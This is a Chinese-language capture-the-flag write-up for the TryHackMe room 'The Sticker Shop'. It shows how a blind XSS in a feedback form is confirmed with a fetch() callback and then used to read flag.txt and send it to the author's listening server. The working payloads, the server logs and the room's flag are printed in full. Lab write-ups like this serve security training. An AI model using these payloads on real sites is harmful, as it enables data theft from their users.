


# The Sticker Shop

[room url](https://tryhackme.com/r/room/thestickershop)

## Check out the site's features

靶機就是一個網站，有一個填寫 feedback 的功能




題目敘述中提到：They decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback.  
代表這個站台是有連出去的功能的，網頁功能也不多，所以先來試試看 XSS 會不會成功。這邊有測試過 feedback 功能，輸入的文字是不會顯示於網站的任何地方的，所以應該是屬於 Blind XSS 的攻擊方式。

## Blind XSS test

為了要測試是否可以透過 Blind XSS 連出去，先在 Kali 上起一個 server 讓目標有地方連。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server                                 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

接著在 feedback 的地方嘗試輸入以下 script 驗證是否會連線至我們起的 server

```HTML
<script>
    fetch('http://10.17.1.65:8000/')
</script>
```

回到 python server 的 log 查看，的確有連過來，代表這邊是可以進行 blind XSS 的。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server                                 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.152 - - [08/Dec/2024 04:05:57] "GET / HTTP/1.1" 200 -
```

## Use Blind XSS to trigger a callback to the host and retrieve the flag

現在只要寫一個 script 會讓目標把 flag.txt 的資料一起帶過來就可以了

```HTML
<script>
fetch("/flag.txt", {method:'GET', mode:'no-cors'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.17.1.65:8000/' + text); 
  });
</script>
```

回去 python server log 就可以拿到 flag 了

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.152 - - [08/Dec/2024 04:22:05] code 404, message File not found
10.10.11.152 - - [08/Dec/2024 04:22:05] "GET /THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 404 -
```